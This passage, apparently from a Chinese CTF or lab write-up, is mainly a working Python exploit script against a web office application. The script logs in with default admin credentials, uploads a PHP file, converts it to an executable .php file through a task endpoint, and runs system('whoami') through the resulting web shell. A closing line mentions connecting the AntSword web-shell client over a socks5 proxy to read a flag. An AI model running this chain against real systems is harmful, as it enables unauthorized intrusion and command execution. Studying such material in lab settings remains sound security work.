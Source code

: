 如下

```plain
import requests

session = requests.session()

url_pre = 'http://172.22.1.18/'
url1 = url_pre + '?a=check&m=login&d=&ajaxbool=true&rnd=533953'
url2 = url_pre + '/index.php?a=upfile&m=upload&d=public&maxsize=100&ajaxbool=true&rnd=798913'
url3 = url_pre + '/task.php?m=qcloudCos|runt&a=run&fileid=11'

data1 = {
    'rempass': '0',
    'jmpass': 'false',
    'device': '1625884034525',
    'ltype': '0',
    'adminuser': 'YWRtaW4=::',
    'adminpass': 'YWRtaW4xMjM=',
    'yanzm': ''
}


r = session.post(url1, data=data1)
r = session.post(url2, files={'file': open('1.php', 'r+')})

filepath = str(r.json()['filepath'])
filepath = "/" + filepath.split('.uptemp')[0] + '.php'
id = r.json()['id']

url3 = url_pre + f'/task.php?m=qcloudCos|runt&a=run&fileid={id}'

r = session.get(url3)
r = session.get(url_pre + filepath + "?1=system('whoami');")
print(url_pre + filepath + "?1=system('whoami');")
print(r.text)
```

蚁剑挂上`socks5`代理，成功读取第二部分 flag

[![](assets/1709193375-0e209d458a30792ad00e69ff3b996eda.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240227205353-42d8a2b2-d56f-1.png)
